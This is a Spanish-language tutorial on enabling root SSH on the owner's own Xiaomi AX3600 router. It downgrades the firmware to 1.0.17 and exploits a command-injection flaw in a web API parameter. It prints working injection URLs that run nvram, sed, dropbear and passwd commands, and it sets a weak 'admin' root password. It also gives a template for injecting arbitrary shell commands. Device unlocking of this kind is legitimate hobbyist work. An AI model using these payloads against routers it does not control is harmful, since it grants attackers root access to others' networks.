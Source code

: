 
Xiaomi AX3600 - Activar SSH
===========================

Usaremos un exploit que se encuentra en una versión de firmware antigua para obtener acceso SSH al rúter y modificar a nuestro antojo los archivos de configuración. AX3600 SSH

1 mar. 2021 · 3 min de lectura

Antes que nada hay que agradecer al usuario [LonGDikE 188](https://www.right.com.cn/forum/space-uid-249305.html) de un foro de entusiastas chinos, ya que logro dar con el siguiente exploit para obtener acceso SSH a nuestro rúter.
A modo de tributo a la comunidad hispano hablante he traducido los pasos para activar SSH a nuestro querido idioma.

Lo primero, necesitamos tener el rúter en su versión china, en concreto la 1.0.17 ya que en dicha versión se encuentra el exploit.
La versión 1.0.17 la puedes descargar aquí: [dabm-git/ax3600-files](https://github.com/dabm-git/ax3600-files)

¡Ah! Antes de continuar, no me gusta el anglicismo router, por tanto usare rúter 🤪

* * *

### La versión 1.0.17  

Necesitamos estar en la versión 1.0.17 Y el rúter configurado, es decir con el asistente de configuración inicial terminado, desde la interfaz web de tu rúter puedes subir esta versión, en concreto tenemos que ir **Ajustes**\->**Información**\-> **Subir el fichero de forma manual.**

![](./resources/upgrade_ax3699.JPG)

Una vez subida la versión 1.0.17 el rúter se reiniciará y volverá a la configuración de fabrica con la versión que nos interesa.

Nos conectamos al rúter de nuevo, realizamos la configuración inicial, si, estará en chino... siguiente, siguiente, contraseña WiFi, te recomiendo establecer una contraseña sencilla por ahora, algo del estilo _123456789_ si tienes algún problema con el **Chino**, puedes usar tu móvil y traducir con la aplicación de [Google Translate](https://play.google.com/store/apps/details?id=com.google.android.apps.translate) usando la cámara.

### ¡Al turrón!  

En este punto tendremos la versión citada y podemos empezar a trastear, desde un explorador web nos conectaremos al rúter, generalmente la dirección IP será [192.168.31.1](http://192.168.31.1/) , la contraseña de log-in será la contraseña WiFi que se estableció en la configuración.

Lo que tenemos que hacer una vez iniciada la sesión será fijarnos en el parámetro _**;stok=(clave)**_ de en la barra de búsqueda.

![](./resources/stok_ax3699.JPG)

**En mi caso, el valor stok es: _3719ab425433e074d2bd05345f35944a_**

A continuación construiremos el exploit en si, usando los siguientes enlaces, **modifica el parámetro <stok>** con el tuyo e introdúcelos uno por uno la barra de direcciones de tu explorador web.

Si todo ha ido bien, verás {"code":0} en el contenido de la web.

Con este primer enlace conseguiremos que el rúter ejecute: _nvram set ssh\_en=1; nvram commit,_ para **establecer que esta activado el SSH** en la memoria de acceso aleatorio no volátil.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bnvram%20set%20ssh%5Fen%3D1%3B%20nvram%20commit%3B

Con el segundo se **activa el servicio de _dropbear_** para acceder via SSH, en concreto ejecuta: _sed -i 's/channel=.\*/channel="debug"/g' /etc/init.d/dropbear_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bsed%20-i%20's/channel=.*/channel=%5C%22debug%5C%22/g'%20/etc/init.d/dropbear%3B

Con el tercero se **enciende el servicio SSH**, ejecuta: _/etc/init.d/dropbear start_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B/etc/init.d/dropbear%20start%3B

¡Enhorabuena! En este punto si todos los códigos han sido 0, tienes activado en tu rúter SSH, ahora bien el usuario será root, pero **¿y cual es la contraseña?.**

Pues vamos a ponerle, _admin_, por qué no :P, ejecuta: _echo -e "admin/nadmin" | passwd root,_ para **establecer una contraseña a root**.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%0Aecho%20-e%20%27admin%5Cnadmin%27%20%7C%20passwd%20root%0A
    

Ahora si, ya tenemos activado SSH en nuestro rúter y además el usuario es _**root**_ y la contraseña _**admin**._

![](./resources/SSH_ax3600-1.jpg)

Adicionalmente si quieres enviar algún otro comando usando el exploit stok, puedes usar el siguiente enlace (o hacerlo directamente desde la terminal), añadiendo el código que quieras al final, pero ¡ojo!, tiene un marcado de enlaces de explorador...

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B<encoded shell here>%3B

**Si queremos que persista el desbloqueo SSH** con las actualizaciones, por si nos interesa actualizarlo a una versión Internacional, - en el siguiente post -, donde además explico como cambiar la localización del mismo para cumplimentar con las leyes de emisión WiFi (o no) > \[En breve jeje\]

* * *

